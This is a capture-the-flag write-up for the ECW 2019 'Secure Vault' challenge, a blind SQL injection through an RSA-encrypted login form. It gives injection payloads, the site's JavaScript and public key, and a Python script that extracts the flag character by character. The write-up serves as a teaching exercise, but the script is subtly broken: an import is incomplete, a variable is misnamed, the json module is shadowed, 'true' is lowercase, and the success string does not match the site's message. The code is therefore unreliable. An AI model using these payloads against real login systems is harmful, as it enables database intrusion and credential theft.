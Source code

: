 # ECW-Challenge 2019 Writeup: Secure Vault

Secure Vault is a challenge from the European Cyber Week qualification CTF and is a blind SQL-Injection with a little twist of encryption. Entering the Website, you are presented with a login form, asking for Username and Password. 

### Finding the entry point

Testing for a basic SQL injection by entering "'or 1=1; -- -'" results in the message "Welcome back! Unfortunately we are under maintenance, please come back later :)". Entering a false password results in an Error, so we have a boolean-based Injection.
<br />
While further testing, I discovered that when you enter two Queries, e.g. ```">' or 1=1; SLEEP(5)"```, we get a very verbose error, "You can only execute one query at a time", which reveals the actual query which equals to ```SELECT id, secret FROM users WHERE email=' . $USER_INPUT . '``` and also tells us about the DBMS, which is SQLite3.3.
<br />
My first guess  was that the admin password is the flag, but we know the Format (ECW{64HEX}) and testing for ```' or substr(secret,1,3)="ECW";``` resulted false.

### The exploit

From now on, a script should probably take over, to enumerate table- and field names. Looking at the request, the POST-payload carrying the credentials is cyphered. Looking at the source code, we find some important js-code:

```
$(document).ready(function () {
	$("#challenge").submit(function (event) {
		event.preventDefault();
		var encrypt = new JSEncrypt();
		encrypt.setPublicKey($('#pubkey').val());

		email = $('#email').val();
		passwd = $('#passwd').val();
		jsonlogin = {
			"email": email,
			"passwd": passwd
		}

		var encrypted = encrypt.encrypt(JSON.stringify(jsonlogin));
		$.post( "/login",{encrypted:encrypted}, function( data ) {
			$('#content').text(data)
			$('#msg_modal').on('shown.bs.modal', function () {}).modal('show');
		});
	})
});
```

And the related public key:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6NxvZHf6eBzmIvfvRAOZ
UHPL8pzY5xdrFd0qa5Gh/E215tKFQ2vMMBpF/yyA2KE55bwaQnUPNkzPxPKV5MCL
rqdobV/HO6F4m4XIDP2PA6sJUmMjhh8X6aAzQ1rgMyF+J0z6zGY2kh2LtBAGDnu5
wfY+cORY/CyJZ7y8RRxEdeTDtsVnRe/xz++9cIF6e+yYqwJLa+nHD894oFbVlSok
NJh8e2eqpkIvfVotmp4JTjDJp9bpH+ibHWi3gj/o3SXvu832LHn1d5fANB9sQ44r
UjDfhr8h0bA8ZkO5Hj9W39M5WJK9MqzgV5lgb3patN0wOosPOKRBRKdA65jRbuxo
pwIDAQAB
-----END PUBLIC KEY-----
```

JSEncrypt uses RSA-PKCS1-v1.5. Of course Python has a library for this cypher-suite, so we can write a script to enumerate the tables and find the flag. But sometimes common sense can help to speed things up, so I tried some table names by hand. The obvious "vault" was the table name and "flag" the field name: 
```x' or (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name='vault');```
```x' or (SELECT flag FROM vault limit 1) like 'ECW{%```

Python will then do the annoying part.

```python
from Crypto.Cipher import PKCS1_v1_5
from Crypto.PublicKey import 
import base64
import json
import requests

public_key = """-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6NxvZHf6eBzmIvfvRAOZ
UHPL8pzY5xdrFd0qa5Gh/E215tKFQ2vMMBpF/yyA2KE55bwaQnUPNkzPxPKV5MCL
rqdobV/HO6F4m4XIDP2PA6sJUmMjhh8X6aAzQ1rgMyF+J0z6zGY2kh2LtBAGDnu5
wfY+cORY/CyJZ7y8RRxEdeTDtsVnRe/xz++9cIF6e+yYqwJLa+nHD894oFbVlSok
NJh8e2eqpkIvfVotmp4JTjDJp9bpH+ibHWi3gj/o3SXvu832LHn1d5fANB9sQ44r
UjDfhr8h0bA8ZkO5Hj9W39M5WJK9MqzgV5lgb3patN0wOosPOKRBRKdA65jRbuxo
pwIDAQAB
-----END PUBLIC KEY-----"""

session = requests.session()

def inject(payload):
    jsonlogin = {
        "email":"test@test.de",
        "passwd":payload
    }
    json = json.dumps(jsonlogin, separators=(',', ':'))

    rsa_key = RSA.importKey(public_key)
    rsa_cipher = PKCS1_v1_5.new(rsa_key)
    encrypted = cipher.encrypt(json)
    post_data = base64.b64encode(encrypted)

    r = session.post("https://web_securevault.challenge-ecw.fr/login",
    	{"encrypted":post_data},
    	cookies={"session":"$MYSESSIONID"}) # do not forget the session cookie
     
   	if "Welcome Back" in r.text:
   		return true
   		
flag = "ECW{"
# length is 64
for i in range(0,64):
	# test each ascii char from '0' to 'z'
	for c in range(48,123):
		payload = "x' or (SELECT flag from vault limit 1) like '"+ flag + str(chr(c)) + "%"
		if inject(payload): # if positive result, we found the next char of the flag
			flag = flag + str(chr(c))
				
print 'Flag: '+flag+'}'</code></pre>
```
And there is the flag

```ECW{9a058f5d7611685100ff42b26fc054782e061af786228f8208b988cba449cb41}```

Another interesting way would be to convert the above to a tampering script to utilise in combination with SqlMap, but for a simple challenge like this, I prefer to not use unneccesarily big tools.
